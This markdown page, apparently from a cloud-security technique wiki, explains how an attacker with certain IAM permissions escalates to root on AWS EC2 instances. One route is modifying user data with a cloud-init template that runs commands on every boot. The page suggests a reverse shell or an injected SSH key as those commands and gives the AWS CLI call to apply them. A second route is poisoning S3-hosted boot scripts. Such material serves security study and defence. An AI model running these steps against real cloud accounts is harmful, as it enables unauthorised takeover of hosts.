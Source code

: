 ```yaml
---
author_name: Nick Frichette
title: EC2 Privilege Escalation Through User Data
description: How to escalate privileges on an EC2 instance by abusing user data.
---
```


If you've gained a foothold on an EC2 instance, use these these techniques to escalate privileges to root/System on the host.

## ec2:ModifyInstanceAttribute

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)

-   :material-shield-plus:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - [ec2:StartInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:DescribeInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:StopInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html)
</div>
<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [aws_pwn:elevation](https://github.com/dagrz/aws_pwn/blob/master/elevation/bouncy_bouncy_cloudy_cloud.py) by [Daniel Grzelak](https://twitter.com/dagrz)
</div>

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started. 

One trick to bypass this limitation uses [the `#cloud-boothook` directive](https://docs.aws.amazon.com/linux/al2/ug/amazon-linux-cloud-init.html), which instructs the instance to run the code on each boot.

An alternative approach uses a special [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) `cloud-config` to prompt a run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html) API call to change the user data of the target instance. 

!!! Note 
    The instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.

## Leverage scripts in S3

A common pattern when using EC2 is to define a [user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html) script to be run when an instance is first started or after a reboot. These scripts are typically used to install software, download and set a config, etc. Oftentimes the scripts and packages are pulled from S3 and this introduces an opportunity for a developer/ops person to make a mistake.

If the IAM role is too permissive and allows the role to write to that location, an adversary can leverage this for privilege escalation. Additionally, if there is any other kind of misconfiguration on the bucket itself, or another role which has access gets compromised, an adversary can take advantage of this as well.

Take the following user data script:

```
#!/bin/bash
aws s3 cp s3://example-boot-bucket/start_script.sh /root/start_script.sh
chmod +x /root/start_script.sh
/root/start_script.sh
```

On first launch, the EC2 instance will pull the start_script from S3 and will run it. If an adversary can write to that location, they can escalate privileges or gain control of the EC2 instance.

!!! Note
    In addition to new instances being spun up or after a reboot, poisoning the scripts/applications can also effect EC2 instances in an [Auto Scaling Group](https://docs.aws.amazon.com/autoscaling/ec2/userguide/AutoScalingGroup.html).
